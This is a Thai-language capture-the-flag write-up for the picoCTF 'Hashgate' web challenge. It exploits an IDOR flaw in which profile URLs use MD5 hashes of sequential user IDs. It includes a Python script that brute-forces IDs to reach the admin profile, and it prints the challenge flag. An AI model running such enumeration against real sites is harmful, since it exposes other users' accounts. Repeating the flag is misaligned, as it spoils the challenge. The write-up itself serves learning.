



# PicoCTF - Hashgate (Medium, Web Exploitation, picoCTF 2026)
> You have gotten access to an organisation's portal. Submit your email and password, and it redirects you to your profile. But be careful: just because access to the admin isn’t directly exposed doesn’t mean it’s secure. Maybe someone forgot that obscurity isn’t security... Can you find your way into the admin’s profile for this organisation and capture the flag?

## Overview
โจทย์ข้อนี้ให้เพียงหน้า login โดยไม่มี source code หรือหน้าสำหรับ register ทำให้ไม่สามารถสร้างบัญชีใหม่ได้โดยตรง ดังนั้นแนวทางในการโจมตีจึงต้องมุ่งไปที่การวิเคราะห์ระบบ authentication ที่มีอยู่

จากลักษณะของโจทย์ที่กล่าวถึงว่า "obscurity isn’t security" เป็นไปได้ว่าระบบอาจมีการป้องกันที่ไม่รัดกุม เช่น การตรวจสอบสิทธิ์ที่ฝั่ง client หรือมี logic บางอย่างที่สามารถ bypass ได้

## Vulnerability Analysis
ผมได้ลอง Inspect ดูแล้วก็ได้เจอ email และ password ที่ฝังไว้ในหน้าเว็บ `<!-- Email: guest@picoctf.org Password: guest -->`


ผมเลยทำการลองใช้ login ดูและมันก็สามารถเข้าได้ซึ่งสิ่งที่เขาโชว์คือ ID อะไรซักอย่างคาดเดาว่าจะเป็น ID ของ user ที่เราเข้าถึง
```
Access level: Guest (ID: 3000). Insufficient privileges to view classified data. Only top-tier users can access the flag.
```
และผมสังเกตเห็น url มันมี `/user/<hash>` ซึ่งคาดการณ์ว่ามันน่าจะเกี่ยวข้องกับ ID ที่แสดง
```
http://crystal-peak.picoctf.net:64706/profile/user/e93028bdc1aacdfb3687181f2031765d
```
จากข้อมูลดังกล่าวผมคาดว่าแอปพลิเคชันมีช่องโหว่ประเภท **IDOR (Insecure Direct Object Reference)** 
เนื่องจากมีการใช้ค่า hash ของ user ID ใน URL โดยไม่มีการตรวจสอบสิทธิ์ของผู้ใช้งาน

## Exploitation Steps
### Step 1 Hash Identification
อันดับแรกผมทำการใช้ hash-identifier เพื่อหาว่าค่า hash ที่น่าสงสัยนั้นคือการเข้ารหัสแบบไหน

ผลลัพธ์ที่ได้คือ `md5`

### Step 2 Hash Resolution (Lookup)
ผมนำเอาค่า hash ที่ได้ไป decrypt ด้วยเว็บ [md5decrypt](https://md5decrypt.net/en/) แล้วได้ออกมาคือ `3000`

ซึ่งค่าตรงกับ ID ที่แสดงในหน้าเว็บพอดี

### Step 3 ID Enumeration via Brute Force
ผมลองทำการไล่ ID ที่ url ดูว่าจะเกิดอะไรขึ้นด้วย python script โดยที่เริ่มต้นที่ 3000-4000 ซึ่งค่าที่ได้มานี้ผมทำการสุ่มค่าขึ้นมาจากการนำ ID ปัจจุบันเพิ่มไปอีก 1000 และผมทำการหา response ที่มีคำว่า admin ด้วยเพราะว่าโจทย์ให้เข้า admin โปรไฟล์
``` python
import requests
import hashlib

for i in range(3000, 4000):
    md5_hash = hashlib.md5(str(i).encode()).hexdigest()
    r = requests.get(f'http://crystal-peak.picoctf.net:64706/profile/user/{md5_hash}')
    result = r.text

    if 'admin' in result.lower():
        print(f'Found the flag at {i} and the hash is {md5_hash}')
        print(result)
        break
    else:
        pass
```
และได้ flag ออกมาเลยที่ ID 3019
``` bash
┌──(venv)─(kali㉿kali)-[~/Pico/Hashgate]
└─$ python brute.py
Found the flag at 3019 and the hash is a74c3bae3e13616104c1b25f9da1f11f
Welcome, admin! Here is the flag: picoCTF{id0r_unl0ck_ee526012}
```
flag: `picoCTF{id0r_unl0ck_ee526012}`